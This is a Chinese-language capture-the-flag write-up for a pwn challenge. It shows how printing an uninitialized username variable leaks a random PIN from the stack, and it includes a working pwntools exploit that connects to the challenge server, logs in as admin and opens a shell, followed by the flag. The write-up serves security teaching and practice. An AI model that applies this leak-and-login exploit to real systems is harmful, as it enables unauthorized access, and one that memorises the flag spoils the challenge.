








# Sunshine on Filth is Not Polluted

> pwn

## 题目描述

Log in with a valid username and PIN code, and this program will give you a shell. The username is easy to identify, but the PIN code is randomly generated!

Here's a hint, but you'll need to work for it a bit. Two hashed words: f704f57ea420275ad51bf55b7dec2c96 87cd8b8808600624d8c590cfc2e6e94b

To get the flag, you will need to exploit the binary on a live system. The binary is running on 34.123.210.162 port 20231 and the flag can be found in the /home/re3 directory when you get a shell.

## 解题思路

- 首先这个 pwn 题居然被放到 reverse 分类里去了，这让我着实浪费了不少时间怀疑自己的思路
- 先看一下题目的提示，给了两个看起来像哈希值的字符串，从长度为 32 可以初步判断为 md5 加密。
- 在 [md5 在线加解密网站](https://md5.cn/)上解密，可以得知两个提示信息为 `Uninitialized` 和 `variables`

  

  

- 回看程序逻辑，首先生成一个随机 PIN 码，然后用户选择执行的操作，包括输入用户名、确认用户名、登录。

  

- 根据题目提示，思路已经很明显了，用户名在没有初始化的情况下就可以打印，这样会泄露栈上的内容。我们动态调试一下，分别在生成 PIN 码处和打印 src 变量处下断点

  

  

- 然后查看这两处断点的栈

  

  

  栈顶是一模一样的，所以当 src 变量未初始化时，打印的内容就是未被覆盖的栈顶内容，即生成的 `auth_code`

- exp 如下

  ```python
  from pwn import *

  r = remote('34.123.210.162', 20231)
  # r = process('./re3.bin_no_alarm')
  # gdb.attach(r, 'b *(configure_username+128)')
  r.recvuntil(b'Options: (1) Enter username, (2) Confirm username, (3) Done: ')
  r.sendline(b'2')
  raw_code = r.recvline()
  raw_code = raw_code.split(b':')[-1].strip()
  auth_code = int.from_bytes(raw_code, 'little')
  print(raw_code)
  r.recvuntil(b'Options: (1) Enter username, (2) Confirm username, (3) Done: ')
  r.sendline(b'1')
  r.recvuntil(b'Username: ')
  r.sendline(b'admin')
  r.recvuntil(b'Options: (1) Enter username, (2) Confirm username, (3) Done: ')
  r.sendline(b'3')
  r.recvuntil(b'Enter your authentication code: ')
  r.sendline(str(auth_code).encode())
  r.interactive()
  ```

- 得到 flag

  

## flag

`poctf{uwsp_7h3_1355_y0u_kn0w_7h3_837732}`